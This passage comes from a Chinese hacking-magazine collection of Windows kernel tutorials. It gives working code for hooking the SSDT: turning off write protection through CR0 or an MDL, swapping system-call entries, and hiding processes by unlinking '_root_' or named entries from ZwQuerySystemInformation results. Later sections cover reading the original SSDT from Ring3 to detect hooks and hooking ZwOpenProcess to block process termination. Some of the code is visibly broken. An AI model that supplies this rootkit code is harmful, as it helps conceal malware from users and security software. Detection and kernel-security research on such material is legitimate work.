    ThreadID := GetWindowThreadProcessId(htaskmgr, nil);
    if ThreadID <> 0 then
    begin
      ...
    end;
  end;
end;
```

```pascal
hHookDll := LoadLibrary('Hook.dll'); // 动态加载DLL
if hHookDll <> 0 then
begin
  pHookFunction := GetProcAddress(hHookDll, 'HookFunction'); // 获取DLL导出函数地址
  if pHookFunction <> nil then
  begin
    // 安装钩子
    h_Hook := SetWindowsHookEx(3, pHookFunction, hHookDll, ThreadID);
  end;
end;
```

```pascal
else
begin
  if h_Hook <> 0 then
    UnhookWindowsHookEx(h_Hook); // 卸载钩子
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  Timer1.Enabled := True;
end;
```

【本文涉及的代码（程序），请见随书光盘】

### 详解挂钩 SSDT

文/图 石油大学胜利学院 小麒麟

最近大家对于 Ring0 级的研究正如当年的注入一样越来越火，认识的朋友似乎张口闭口都是内核，看来自有可能是以后的趋势了。在下不才在此献上一篇文章，算是抛砖引玉，希望以后有更好的文章发表出来。

大家都用过冰刃吧？应该对 SSDT 记忆犹新，但什么是 SSDT，它是做什么用的呢？SSDT 的全称是 System Services Descriptor Table，中文含义是系统服务描述符表，其作用就是把 Ring3 的 Win32 API 和 Ring0 的内核 API 联系起来。它通过对系统调用进行索引然后定位函数的内存地址。

当应用程序采用子系统调用系统服务时，它会调用到 ntdll.dll 中，后者向 EAX 中加载所请求的系统服务标识符编号或系统函数编号，最后向 EDX 中加载用户模式中函数的参数地址，系统服务调度程序对参数数目进行验证，将它们从用户堆栈复制入内核堆栈，然后调用在 SSDT 中存储于 EAX 中的服务标识符编号的索引地址处的函数。

举个例子，当我们要调用 OpenProcess 函数时，函数进入内核的过程如图 1 所示。当程序的处理流程进入 Ring0 之后，系统会根据服务标识符编号（eax）在 SSDT 这个系统服务描述符表中查找对应的表项，这个找到的表项就是系统服务函数 NtOpenProcess 的真正地址。

之后，系统会根据这个地址调用相应的系统服务函数，并把结果返回给 ntdll.dll 中的 NtOpenProcess。图 2 中的“SSDT”所示即为系统服务描述符表的各个表项，右侧的“ntoskrnl.exe”则为 Windows 系统内核服务入口。

## 3.6 系统核心类

ntoskrnl（即 NT OS Kernel 的缩写）提供了相对应的各个系统服务函数。ntoskrnl.exe 这个文件位于 Windows 的 system32 目录下。

这里说明一点：SSDT 中的各个表项不会全部指向 ntoskrnl.exe 中的服务函数，因为你机器上的杀毒监控或其他驱动程序可能会改写 SSDT 中的某些表项，以达到它们的目的。

这里我们还要明确一个概念，就是 KeServiceDescriptorTable，它是内核导出的表，该表拥有一个指针，指向 SSDT 中包含由 ntoskrnl.exe 实现核心系统服务的相应部分。我们可以把它理解成 SSDT 在内核中的数据实体。SSDT 的数据结构定义如下：

```c
typedef struct _tagSSDT {
    PVOID pvSSDTBase;
    PVOID pvServiceCounterTable;
    ULONG ulNumberOfServices;
    PVOID pvParamTableBase;
} SSDT, *PSSDT;
```

有了以上知识后，我们就可以钩住 SSDT 来完成我们希望实现的功能了。这里以一种隐藏进程的方法进行说明。但我们还有一个问题需要解决：我们要修改 SSDT 表，首先这个表必须是可写的，但在 Windows XP 以后的系统中它都是只读的。我总结了 3 个办法来修改内存保护机制，这对以后的编程是很有用处的。

- 1）更改注册表（要重启）

```text
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\
    Memory Management\EnforceWriteProtection=0
```

```text
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\
    Memory Management\DisablePagingExecutive=1
```

其中第 2 种方法我没有试验成功，这里只是列出作为一种方法供大家参考。

- 2）修改控制寄存器 CR0  
  将 WP 位设置为 2，代码如下。

```asm
push eax
mov eax, CR0
and eax, 0FFFEFFFFh
mov CR0, eax
pop eax
```

如果要恢复，可使用以下代码。

```asm
push eax
mov eax, CR0
or eax, NOT 0FFFEFFFFh
mov CR0, eax
pop eax
```

这个方法希望大家以后在编程的时候尽量少用点，因为它常常会带来一些问题。

- 3）利用内存描述符表描述一块可写内存。

本人强烈推荐此种方法，有什么好处，你会在编程中体会到的。以下是 MDL 在 ntddk.h 的定义。

```c
typedef struct _MDL {
    struct _MDL *Next;
    CSHORT Size;
    CSHORT MdlFlags;
    struct _EPROCESS *Process;
    PVOID MappedSystemVa;
    PVOID StartVa;
    ULONG ByteCount;
    ULONG ByteOffset;
} MDL, *PMDL;

#define MDL_MAPPED_TO_SYSTEM_VA         0x0001
#define MDL_PAGES_LOCKED                0x0002
#define MDL_SOURCE_IS_NONPAGED_POOL     0x0004
#define MDL_ALLOCATED_FIXED_SIZE        0x0008
#define MDL_PARTIAL                     0x0010
#define MDL_PARTIAL_HAS_BEEN_MAPPED     0x0020
#define MDL_IO_PAGE_READ                0x0040
#define MDL_WRITE_OPERATION             0x0080
#define MDL_PARENT_MAPPED_SYSTEM_VA     0x0100
#define MDL_FREE_EXTRA_PTES             0x0200
#define MDL_IO_SPACE                    0x0800
#define MDL_NETWORK_HEADER              0x1000
#define MDL_MAPPING_CAN_FAIL            0x2000
#define MDL_ALLOCATED_MUST_SUCCEED      0x4000
```

MDL 包含了该内存区域的起始地址、拥有者进程、字节数量以及标志。

这里以修改 SSDT 为例，以下代码先声明一个结构，该结构用于转换由内核导出的 KeServiceDescriptorTable 变量的类型。调用 MmCreateMdl 时需要 KeServiceDescriptorTable 的基地址和它包含的项数，从中我们得到 MDL 所描述的内存区域与大小，然后从分页内存中创建 MDL。我们将 MDL 标志与 MDL_MAPPED_TO_SYSTEM_VA 进行或操作，以便允许写入一块内存区域，然后就可以调用 MmMapLockedPages 来锁定内存中的 MDL 页了。

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    // KeServiceDescriptorTable 的基址
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices; // 包含的项数
```

```c
unsigned char *ParamTableBase;
SSDT_Entry;
#pragma pack()
__declspec(dllimport) SSDT_Entry KeServiceDescriptorTable;
PMDL g_pmdlSystemCall;
PVOID *MappedSystemCallTable;

g_pmdlSystemCall = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase,
    KeServiceDescriptorTable.NumberOfServices * 4);
if (!g_pmdlSystemCall)
    return STATUS_UNSUCCESSFUL;
MmBuildMdlForNonPagedPool(g_pmdlSystemCall);
g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode);
```

现在我们就可以试着隐藏进程了。Taskmgr.exe 是通过 ZwQuerySystemInformation 函数获取系统上的进程列表，如果要获得进程列表，那么 SystemInformationClass 要设置为 5。ZwQuerySystemInformation 函数结构如下。

```c
NTSTATUS NewZwQuerySystemInformation(
  IN ULONG SystemInformationClass,
  // 如果该值是 5，则代表系统中所有进程信息
  IN PVOID SystemInformation,
  // 这就是该序列举出的信息，和上面的值有关
  IN ULONG SystemInformationLength,
  OUT PULONG ReturnLength
);
```

在 Windows 2000 中，NtQuerySystemInformation 在 SSDT 里面的索引号是 0x97，所以只需要把 SSDT 中偏移 0x97*4 处的原来的一个 DWORD 类型的值读出来保存在一个全局变量中，然后再把它重新赋值成一个新的 Hook 函数的地址，就完成了 Hook。

```c
OldFuncAddress = KeServiceDescriptorTable->ServiceCounterTableBase[0x97];
KeServiceDescriptorTable->ServiceCounterTableBase[0x97] = NewFuncAddress;
```

在其他系统中，这个号不一定一样，所以必须找一种通用的办法来得到这个索引号。在《Undocument NT》中介绍了一种办法可以解决这个通用问题，从而有效地避免了使用硬编码。在 ntoskrnl 导出的 ZwQuerySystemInformation 中包含有索引号的硬编码如下。

```asm
kd> u ZwQuerySystemInformation
804011aa b897000000 mov eax,0x97
804011af 8d542404 lea edx,[esp+0x4]
804011b3 cd2e int 2e
804011b5 c21000 ret 0x10
```

所以，我们只需要把 ZwQuerySystemInformation 入口处的第二个字节取出来就能得到相应的索引号了。有了以上的准备工作，我们可以钩住 SSDT 表了。为了方便，这里给出以下 4 个宏定义。

```c
// 获得 SSDT 基址宏
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]

// 获得函数在 SSDT 中的索引宏
#define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)

// 调换自己的 hook 函数与原系统函数的地址
#define HOOK_SYSCALL(_Function, _Hook, _Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook)

// 卸载 hook 函数
#define UNHOOK_SYSCALL(_Function, _Hook, _Orig) \
    InterlockedExchange((PLONG)&MappedSystemCallTable[SYSCALL_INDEX(_Function)], (LONG)_Hook)
```

有点乱了吧？我来总结一下。如果要隐藏进程，我们可以先突破 SSDT 的内存保护，如上所用的 MDL 方法；然后实现自己的 NewZwQuerySystemInformation 函数，过滤掉以某些字符开头的进程；最后再用上面介绍的宏来交换 ZwQuerySystemInformation 与我们自己的 New* 函数。这里我们要首先声明进程和线程结构。

```c
struct _SYSTEM_THREADS {
  LARGE_INTEGER KernelTime;
  LARGE_INTEGER UserTime;
  LARGE_INTEGER CreateTime;
  ULONG WaitTime;
  PVOID StartAddress;
  CLIENT_ID ClientId;
  KPRIORITY Priority;
  KPRIORITY BasePriority;
  ULONG ContextSwitchCount;
  ULONG ThreadState;
  KWAIT_REASON WaitReason;
};

struct _SYSTEM_PROCESSES {
  ULONG NextEntryDelta;
  ULONG ThreadCount;
  ULONG Reserved[6];
  LARGE_INTEGER CreateTime;
  LARGE_INTEGER UserTime;
  LARGE_INTEGER KernelTime;
  UNICODE_STRING ProcessName;
  KPRIORITY BasePriority;
  ULONG ProcessId;
  ULONG InheritedFromProcessId;
  ULONG HandleCount;
  ULONG Reserved2[2];
  VM_COUNTERS VmCounters;
  IO_COUNTERS IoCounters; // Windows 2000 only
  struct _SYSTEM_THREADS Threads[1];
};
```

下面给出一个完整的代码，它出自于 rootkit.com，我这里只详细讲解一下链表的操作，完整的代码已随文提供。

```c
if (SystemInformationClass == 5)
{
  // 列举系统进程链表，寻找以“_root_”开头的进程
  struct _SYSTEM_PROCESSES *curr = (struct _SYSTEM_PROCESSES *)SystemInformation;
  struct _SYSTEM_PROCESSES *prev = NULL;
  while (curr)
  {
    if (curr->ProcessName.Buffer != NULL)
    {
      if (0 == memcmp(curr->ProcessName.Buffer, L"_root_", 12))
      {
        m_UserTime.QuadPart += curr->UserTime.QuadPart;
        m_KernelTime.QuadPart += curr->KernelTime.QuadPart;
        if (prev)
        {
          if (curr->NextEntryDelta)
            prev->NextEntryDelta += curr->NextEntryDelta;
          else
            prev->NextEntryDelta = 0;
        }
        else
        {
          if (curr->NextEntryDelta)
            (char *)SystemInformation += curr->NextEntryDelta;
        }
      }
    }

    else // "_root_" 进程
    {
      SystemInformation = NULL;
    }
    else // idle process 入口
    {
      curr->UserTime.QuadPart += m_UserTime.QuadPart;
      curr->KernelTime.QuadPart += m_KernelTime.QuadPart;
      m_UserTime.QuadPart = m_KernelTime.QuadPart = 0;
    }

    prev = curr;
    if (curr->NextEntryDelta) (char *)curr += curr->NextEntryDelta;
    else curr = NULL;
  }
}
else if (SystemInformationClass == 8)
{
  struct _SYSTEM_PROCESSOR_TIMES *times = (struct _SYSTEM_PROCESSOR_TIMES *)SystemInformation;
  times->IdleTime.QuadPart += m_UserTime.QuadPart + m_KernelTime.QuadPart;
}
```

至此，我们就安装了 SSDT 钩子隐藏了进程。希望看完这篇文章后能对大家有所帮助，现在对内核研究的人越来越多，希望感兴趣的人也能加入这些人当中来，发掘出更多的东西来。

[本文涉及的代码（程序），请见随书光盘]


## 浅窥导入函数输出与导入表的内省

在 Win32 编程中常常用到导入函数。导入函数是被程序调用但其实现代码却又不在程序中的函数，而是在其他模块中的函数，这些函数的代码都位于一个或者多个 DLL 中，而且 API 函数都是导入函数。在调用者程序中只保留一些函数信息，包括函数名及其驻留的 DLL 名。大家可以写一个简单的 Win32 程序，然后反汇编，看看是如何调用 API 函数的。

模块的导入函数名和这些函数保存的 DLL 名等信息都保留在它的导入表（import table）中。导入表由一系列的 IMAGE_IMPORT_DESCRIPTOR 结构组成，结构的数量取决于程序要使用的 DLL 文件的数量多少，每个结构都会对应一个 DLL 文件。在所有这些结构的最后，由一个内容全为 0 的 IMAGE_IMPORT_DESCRIPTOR 结构作为结束。

IMAGE_IMPORT_DESCRIPTOR 结构的定义如下。

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
  union {
    DWORD Characteristics;
    DWORD OriginalFirstThunk;
  };
  DWORD TimeDateStamp;
  DWORD ForwarderChain;
  DWORD Name;
  DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

Name 字段是一个 RVA（相对虚拟地址，Relative Virtual Address），指向此结构所对应的 DLL 文件的名称。OriginalFirstThunk 和 FirstThunk 都指向一个 IMAGE_THUNK_DATA 结构，该结构里保存着导入函数的信息。同样，最后以一个内容为 0 的 IMAGE_THUNK_DATA 结构作为结束。

好了，现在来看看如何输出自身调用的 DLL 名及所导入的函数，代码如下。

```c
HMODULE hMod = GetModuleHandle(NULL);
IMAGE_DOS_HEADER *pDosHeader = (IMAGE_DOS_HEADER *)hMod;
IMAGE_OPTIONAL_HEADER *pOptHeader = (IMAGE_OPTIONAL_HEADER *)((BYTE *)hMod + pDosHeader->e_lfanew + 24);
IMAGE_IMPORT_DESCRIPTOR *pImportDesc = (IMAGE_IMPORT_DESCRIPTOR *)((BYTE *)hMod + pOptHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);
```

pDosHeader 指向 DOS 文件头，通过 DOS 文件头的 e_lfanew 可以得到 NT 文件头，NT 头的前 4 个字节是 PE 文件的标识，接下去的 20 个字节是 IMAGE_FILE_HEADER 结构，再接下去就是 IMAGE_OPTIONAL_HEADER 结构，在 IMAGE_OPTIONAL_HEADER 里的 DataDirectory（数据目录）的 VirtualAddress 来找到导入表的位置。这是对上面代码的解释，当然，让大家比较疑惑的就是上面那个有“+24”的地方，如果不说清楚是很难想到那里为什么要加 24 的。

```c
while (pImportDesc->FirstThunk)
{
    char *pszDllName = (char *)((BYTE *)hMod + pImportDesc->Name);
    printf("\n模块名称:%s\n", pszDllName);
    IMAGE_THUNK_DATA *pThunk = (IMAGE_THUNK_DATA *)((BYTE *)hMod + pImportDesc->OriginalFirstThunk);
    int n = 0;
    while (pThunk->u1.Function)
    {
        char *pszFunName = (char *)((BYTE *)hMod + (DWORD)pThunk->u1.AddressOfData + 2);
        PDWORD lpAddr = (DWORD *)((BYTE *)hMod + pImportDesc->FirstThunk) + n;
        printf(" 从此模块导入的函数:%-25s,函数地址: %x\n", pszFunName, lpAddr);
        n++;
        pThunk++;
    }
    pImportDesc++;
}
```

这段代码就是取得模块名和导入函数的代码。通过上面的解释，这段代码大家可以很容易地理解。代码内部循环是一个模块的导入函数的名称和地址，外部循环可以输出模块的名称。不过，如果只是得到自身的导入函数好像没什么意思嘛，那如何查看别的可执行文件的导入函数呢？

我们接着上面提出的问题讨论，那就是如何查看别的可执行文件的导入函数？如果要得到其他可执行文件的导入函数，需要把这个可执行文件打开并进行内存文件映射。直接处理磁盘上的静态 PE 文件会比较麻烦，需要一些比较烦琐的计算，这里就不说了，还是主要来看看我们的内存映射文件吧。

```c
hFile = CreateFile(argv[1], GENERIC_READ,
FILE_SHARE_READ | FILE_SHARE_WRITE, NULL,
OPEN_EXISTING, FILE_ATTRIBUTE_ARCHIVE, NULL);
dwFileSize = GetFileSize(hFile, NULL);
hMap = CreateFileMapping(hFile, NULL,
PAGE_READONLY, 0, 0, NULL);
LPVOID lpBase = MapViewOfFile(hMap, FILE_MAP_READ, 0, 0, 0);
```

其实步骤就是打开文件（CreateFile），得到文件的大小（GetFileSize），创建内存映射对象（CreateFileMapping）和映射对象的一个视图（MapViewOfFile）。得到映射对象的一个视图后，指针（lpBase）就指向了文件的开头。得到其他可执行文件的模块名及导入函数的方法和得到自身模块名及导入函数的方法是一样的，只要把上面代码中的 hMod 变量替换成 lpBase 就可以了。抓个图给大家看看吧，如下图所示，显示的是这个自身程序的导入函数及模块名。


了解 PE 文件头的结构在 Win32 可执行文件中是非常重要和有必要的，而 PE 文件头的结构又是非常复杂的，而且资料也不是很全，学起来真的是非常复杂。希望我提供的内容能给大家一些帮助。至于导入函数的应用，也是很多的，比如说病毒、杀毒软件等这类软件，就需要了解。本文如果有什么错误之处，欢迎大家帮忙指出。

【本文涉及的代码（程序），请见随书光盘】

## Ring3下安全获取原始SSDT地址


文／图 牵着蜗牛去散步

SSDT 是系统服务描述符表的简称，在 Win NT 内核的操作系统中，它储存着 Native API 相关信息。在 Rootkit 中 Hook SSDT 是最常用的手法之一，常见的木马灰鸽子、PcShare 或者说流氓软件雅虎助手、百度搜霸，甚至每台电脑安装的杀毒软件、防火墙都离不开 Hook SSDT。我在《黑客防线》杂志中讲解了如何在 Ring0 驱动中用 ZwQuerySystemInformation 枚举进程，如果需要检测出通过 Hook SSDT 隐藏的进程就需要获取原始的 SSDT 地址。虽然这种方法检测隐藏进程不是很有吸引力，但获取原始 SSDT 地址可以做很多事情……

到底 IceSword 是如何取得原始 SSDT 地址的呢？其实国外早在 2003 年就公布出实现方法了。由于系统环境和 CPU 核心数量之间的差异，首先通过 NtQuerySystemInformation 函数判断内核文件是 ntoskrnl.exe（单核 CPU）、ntkrnlmp.exe（多核 CPU）还是 ntkrnlpa.exe，然后通过 LoadLibrary 函数动态加载分析 PE 结构获取映像基址（ImageBase）以及 PE .Text Section 中的 Virtual Offset、RVA Offset，然后获取 KiServiceTable 地址，最后得到每个真正的 SSDT 地址和索引……

图 1 所示。首先要说明的是本次获取的仅仅为系统描述表的真实地址和索引号。由于 SSDT 可以动态扩充，如卡巴斯基反病毒软件的部分版本在 SSDT 表尾部增加了一些函数，所以不建议使用硬编码，可以通过动态加载 ntdll.dll 文件来解析最终的 ZwXXX 函数名称。下面是如何枚举真实 SSDT 地址的代码，其中使用了网上两个开源的函数 FindKiServiceTable() 和 GetHeaders()……


```c
int EnumSSDT()
{
    HMODULE hKernel;
    DWORD dwKSDT;
    // KeServiceDescriptorTable RVA
    DWORD dwKiServiceTable;
    // KiServiceTable RVA
    PMODULES pModules = (PMODULES)&pModules;
    DWORD dwNeededSize, rc;
    DWORD dwKernelBase, dwServices = 0;
    PCHAR pKernelName;
    PDWORD pService;
    PIMAGE_FILE_HEADER pfh;
    PIMAGE_OPTIONAL_HEADER poh;
    PIMAGE_SECTION_HEADER psh;

    // 通过NtQuerySystemInformation取得系统内核文件
    // 判断是ntoskrnl.exe、ntkrnlmp.exe还是ntkrnlpa.exe
    rc = NtQuerySystemInformation(SystemModuleInformation,
        pModules, 4, &dwNeededSize);

    if (rc == STATUS_INFO_LENGTH_MISMATCH)
    {
        pModules = (PMODULES)GlobalAlloc(GPTR, dwNeededSize);
        rc = NtQuerySystemInformation(SystemModuleInformation,
            pModules, dwNeededSize, NULL);
    }

    if (NT_SUCCESS(rc))
    {
        // 系统内核文件总是在第一个
    }
}
```

```c
{
    MessageBox("NtQuerySystemInformation() Failed! \n");
    // NtQuerySystemInformation 执行失败，检查当前进程权限
    return 0;
}
dwKernelBase = (DWORD)pModules->smi.Base;
// image base
pKernelName = pModules->smi.ModuleNameOffset + pModules->smi.ImageName;
hKernel = LoadLibraryEx(pKernelName, 0, DONT_RESOLVE_DLL_REFERENCES); // 映射 ntoskrnl
if (!hKernel) { MessageBox("Failed to load \n"); return 0; }
GlobalFree(pModules);
if (!(dwKSDT = (DWORD)GetProcAddress(hKernel, "KeServiceDescriptorTable")))
    // 在内核文件中查找 KeServiceDescriptorTable 地址
{
    MessageBox("Can't find KeServiceDescriptorTable\n");
    return 0;
}
dwKSDT -= (DWORD)hKernel;
// 获取 KeServiceDescriptorTable RVA
if (!(dwKiServiceTable = FindKiServiceTable(hKernel, dwKSDT)))
    // 获取 KiServiceTable 地址
{
    MessageBox("Can't find KiServiceTable...\n");
    return 0;
}
GetHeaders((char*)hKernel, &pfh, &poh, &psh);
CString s;
int dwIndex = 0;
for (pService = (PDWORD)((DWORD)hKernel + dwKiServiceTable);
     *pService - poh->ImageBase < poh->SizeOfImage;
     pService++, dwServices++, dwIndex++)
{
    s.Format("0x%03X-0x%08X\n", dwIndex, *pService - poh->ImageBase + dwKernelBase);
    // SSDT 索引和地址
    MessageBox(s);
}
FreeLibrary(hKernel);
return 1;
}
```

最后运行我们自己的程序，可以看见索引号为 0xB5 的地址显示的是原始的 0x80984B68，和 IceSword 获取的一致。这个原始值的获取通过本地读取内核文件解析 PE 结构的方式获得，所以不受 Rootkit 干扰，但要注意读取的内核文件要防止 Patch，所以 IceSword 采用了特殊处理。获取的原始 SSDT 地址如图 3 所示。


图 3

本文最大的特点就是在 Ring3 下完成地址获取，运行更稳定安全。在 2008 年第 3 期的文章中，我详细讲了如何在内核驱动中枚举进程，加入现在的内容就可以检测隐藏进程了。大家可以把获取出来真实的 SSDT 地址传入驱动，通过变通可以枚举出通过 Hook SSDT 方法隐藏的进程、注册表或文件等，这里就不再细讲如何还原 SSDT 了。还原 SSDT 的方法也很简单，就是在 Ring0 内核态写回这些真实地址，但还原 SSDT 会和部分反病毒软件不兼容，可能造成 BSOD 蓝屏，所以放弃了。这里告诉大家在内核中编程的一些技巧，可以让大家少走弯路。

本文的代码完全运行在 Ring3 用户态程序中，同时在 Windows 2000/XP/2003/Vista 测试通过。编译本工程至少需要 Windows 2000 DDK。为了减少声明和动态引用的代码，主要用到了 ntdll.lib。在附件中提供了一个 DrvLoader.exe 驱动加载工具，加载一个我编译好的通过 Hook ZwQuerySystemInformation 方法来隐藏进程的驱动文件 Ring0.sys，打开 IceSword 观察 SSDT 索引号为 0xB5 的 ZwQuerySystemInformation 函数，已经从原始地址 0x80984B68 变成了 0xF77902D0，如图 2 所示。


图 2

```c
try
{
    if (MmIsAddressValid((PVOID)dwAddress))
    {
        // DoSomething 这里处理内核地址 dwAddress
    }
    else
    {
        DbgPrint("catch an exception, prevent BSOD");
        // 阻止一个蓝屏
    }
}
__except(EXCEPTION_EXECUTE_HANDLER)
{
    DbgPrint("catch an exception, prevent BSOD");
    // 阻止一个蓝屏
}
```

> 【本文涉及的代码（程序），请见附书光盘】


## Ring0-Hook SSDT

#### 防止进程被结束

文／图 牵着蜗牛去散步

在《黑客防线》杂志的文章中，我们讲到了如何在 Ring0 中强行结束进程，但有了攻的方法，我们还要知道如何防守。进程防杀在反病毒、流氓软件中都有着广泛的应用，我们都知道在 Ring3 中结束进程使用的是 TerminateProcess() 这个 Win32 API。到了 Ring0 中，使用的则是 ZwTerminateProcess 来结束，但是 ZwTerminateProcess 并没有指明被结束进程的 PID，唯一的参数只有传入的进程句柄，那么我们如何防止进程被结束呢？这里我们使用最简单的方法，在我们讲 Ring0 中强行结束进程提到的 Native API 方法中，首先需要使用 ZwOpenProcess 打开 PID 获取进程句柄，所以我们只要 Hook SSDT 中的 ZwOpenProcess 就可以实现了。

常规的反病毒软件都采用这种方法阻止进程被结束，虽然强度不高，但是对 Hook SSDT 来说确实是简单稳定、不易蓝屏的方法。

对于 Hook SSDT，以前我们大多仅说了过程，没有完整详细的工程代码，对于初学者来说可能还是会遇到些问题，因此本文就先写一个完整的 Hook ZwQuerySystemInformation 来隐藏进程的方法，最后将其修改成 Hook ZwOpenProcess 来实现最终的进程防杀。通过这个例子，大家就基本可以掌握 Hook SSDT 了，以后 Hook Native API 的相关操作就有据可循了。Hook SSDT 的完整实现步骤如下。

- 1）声明 SSDT 结构

```c
typedef struct _ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;         // 系统服务数组表
    unsigned int *ServiceCounterTableBase;  // 类型使用计数
    unsigned int NumberOfServices;          // 服务数量
    unsigned char *ParamTableBase;          // 服务参数数组表
} ServiceDescriptorTableEntry, *PServiceDescriptorTableEntry;
```

系统服务表入口地址 KeServiceDescriptorTable 已由 ntoskrnl.exe 导出，我们在这里通过 extern 直接引用就可以了，代码如下：

```c
extern PServiceDescriptorTableEntry KeServiceDescriptorTable;
```

- 2）声明原始 Native API 结构

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwQuerySystemInformation(
    IN ULONG SystemInformationClass,      // 查询系统服务类型
    IN PVOID SystemInformation,            // 接收系统信息缓冲区
    IN ULONG SystemInformationLength,      // 缓冲信息参数区大小
    OUT PULONG ReturnLength                // 实际接收到的大小
);
```

- 3）声明 Hook 后的 Native API

```c
NTSTATUS HookZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
);
```

- 4）保存原始 Native API 地址（用于还原）

```c
typedef NTSTATUS (*REALZWQUERYSYSTEMINFORMATION)(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
);

REALZWQUERYSYSTEMINFORMATION RealZwQuerySystemInformation;

RealZwQuerySystemInformation = (REALZWQUERYSYSTEMINFORMATION)
    (((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->
    ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))]);
```

### 5）禁用内存写保护（XP 以后系统必须）

在 Windows XP 或以上系统不处理内存写保护会发生蓝屏，将重置 CR0 寄存器防止 PAGE_FAULT，代码如下：

```c
__asm {
    cli;
    mov eax, cr0;
    and eax, 0fffeffffh;
    mov cr0, eax;
}
```

### 6）进行 Hook，其实就是 API 地址替换

由于 SSDT 在每个系统中服务号可能不一样，所以我们可以通过 Native API 函数的地址 +1 来获取 SSDT 中的服务号，Hook 函数的地址如下：

```c
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->
ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))] =
(ULONG)HookZwQuerySystemInformation;
```

### 7）启用内存写保护（对应禁用写保护）

在 Windows XP 或以上系统不处理内存写保护会发生蓝屏，将重置 CR0 寄存器防止 PAGE_FAULT，代码如下：

```c
__asm
{
    mov eax, cr0;
    or eax, 0x10000;
    mov cr0, eax;
    sti;
}
```

### 8）处理核心的 Hook 问题

这里是本文的关键点之一，学过数据结构的读者都知道，就是简单的链表移除工作，判断前驱后继操作，在隐藏进程、文件、模块上都是从这里入手的。

```c
NTSTATUS HookZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{
    NTSTATUS rc;
    struct _SYSTEM_PROCESSES *curr;
    // 保存上一个进程信息的指针
    struct _SYSTEM_PROCESSES *prev = NULL;

    rc = (RealZwQuerySystemInformation)(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);

    if (NT_SUCCESS(rc))
    {
        // 如果系统查询类型是 SystemProcessesAndThreadsInformation
        if (SystemInformationClass == 5)
        {
            curr = (struct _SYSTEM_PROCESSES *)SystemInformation;
            // 加第一个偏移量得到第一个 system 进程的信息首地址
            if (curr->NextEntryDelta)
                (char *)curr += curr->NextEntryDelta;

            while (curr)
            {
                // 这里被隐藏的进程名为 ps_name，内核中为 Unicode 编码
                if (RtlCompareUnicodeString(&ps_name, &curr->ProcessName, 1) == 0)
                {
                    if (prev)
                    {
                        if (curr->NextEntryDelta)
                            prev->NextEntryDelta += curr->NextEntryDelta;
                        else
                            prev->NextEntryDelta = 0;
                    }
                    else
                    {
                        if (curr->NextEntryDelta)
                            (char *)SystemInformation += curr->NextEntryDelta;
                        else
                            SystemInformation = NULL;
                    }
                }

                if (curr->NextEntryDelta)
                    (char *)curr += curr->NextEntryDelta;
                else
                {
                    curr = NULL;
                    break;
                }

                if (curr != NULL)
                {
                    prev = curr;
                    if (curr->NextEntryDelta)
                        (char *)curr += curr->NextEntryDelta;
                    else
                        curr = NULL;
                }
            }
        }
    }

    return rc;
}
```

### 9）还原 Hook，在 Unload 中处理

虽然这一步不是必须的，但如果程序退出时应该移除 Hook，否则在下一次加载时会发生 BSOD。毕竟 Hook Native API 也是影响系统性能的，用完了记住清理资源是个好习惯。

在这之前我们仍然需要重复执行第 5 步禁用内存写保护操作：

`((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation+1))] = RealZwQuerySystemInformation;`

然后重复执行第 7 步启用内存写保护操作。

上面的实现步骤比较多，大家可以再看完整源码。了解了如何 Hook ZwQuerySystemInformation 隐藏进程后，我们再来继续 Hook ZwOpenProcess 以阻止进程结束。ZwOpenProcess 在处理关键 Hook 过程时很简单，仅需要处理 PID，如果等于需要保护的进程 ID 则直接返回 `STATUS_ACCESS_DENIED` 禁止访问，同时进程句柄返回 `INVALID_HANDLE_VALUE` 无效句柄。

```c
NTSTATUS HookZwOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId)
{
    NTSTATUS rc;
    ULONG dwPID;

    rc = ((NTSTATUS)(REALZWOPENPROCESS)RealZwOpenProcess)(
        ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);

    if (ClientId != NULL) {
        dwPID = (ULONG)ClientId->UniqueProcess;
        if (dwPID == 1024) {
            DbgPrint("PID 1024 has been accessed, need forbidden");
            ProcessHandle = INVALID_HANDLE_VALUE;
            rc = STATUS_ACCESS_DENIED;
        }
    }
    return rc;
}
```

除此之外，就是重新定义 ZwOpenProcess 函数原型，对应修改上文的第 2、第 3 步。

```c
typedef NTSTATUS (*REALZWOPENPROCESS)(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK AccessMask,
